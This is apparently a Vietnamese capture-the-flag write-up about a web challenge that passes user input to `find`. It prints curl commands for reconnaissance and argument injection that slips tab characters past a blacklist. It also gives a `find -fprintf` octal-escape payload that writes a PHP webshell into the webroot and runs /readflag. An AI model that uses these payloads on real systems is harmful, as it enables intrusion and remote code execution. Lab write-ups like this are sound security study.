 Lệnh reconnaissance đã dùng:

```bash
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%091%09-ls'
curl 'http://161.97.155.116:8888/?cmd=/var/www/html%09-maxdepth%091%09-writable%09-ls'
curl 'http://161.97.155.116:8888/?cmd=/%09-type%09f%09-perm%09%2F4000%09-maxdepth%09100%09-ls'

```

---

## Lỗ hổng 1 — Tab argument splitting (Mức độ: Cao)

**Mô tả:** input được nối vào shell và chạy, nhưng blacklist không chặn tab; shell coi tab là whitespace → có thể truyền nhiều arguments cho `find`.

**Nguyên nhân gốc rễ:** unsafe concatenation tới `system()` và blacklist không toàn diện.

**PoC:** `/?cmd=/%09-maxdepth%091%09-ls` tương đương `find / -maxdepth 1 -ls`.

**Tác hại:** cho phép truyền option `find` nguy hiểm (ví dụ `-fprintf`) vào hệ thống.

---

## Lỗ hổng 2 — Dùng `find -fprintf` để ghi file (Mức độ: Cao)

**Mô tả:** `-fprintf` có thể ghi byte tùy ý khi định dạng chứa escape bát phân (`\ooo`). Vì webroot có thể ghi, có thể tạo file PHP.

**Nguyên nhân gốc rễ:** cho phép `find` nhận tham số do user kiểm soát, filesystem web có quyền ghi.

**PoC:** dùng `-fprintf` với format chứa `\074` `\040` ... và đặt trong nháy đơn để giữ backslash.

---

## Chain exploit — chi tiết từng bước

1. Xác nhận webroot writable.
2. Tạo PHP file `/var/www/html/p.php` có nội dung:
    
    ```php
    <?php echo `/readflag i want the flag please`; ?>
    
    ```
    
    bằng `find -fprintf` với format octal escapes (đặt trong single quotes).
    
3. Truy cập `http://.../p.php` để thực thi và thu flag.

Các lệnh chính:

```bash
# Viết webshell (ghi file bằng octal escapes, format ở trong single quotes)
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%090%09-fprintf%09/var/www/html/p.php%09%27%5C074%5C077php%5C040echo%5C040%5C140/readflag%5C040i%5C040want%5C040the%5C040flag%5C040please%5C140%5C073%5C040%5C077%5C076%27'

# Lấy flag
http://161.97.155.116:8888/p.php

```
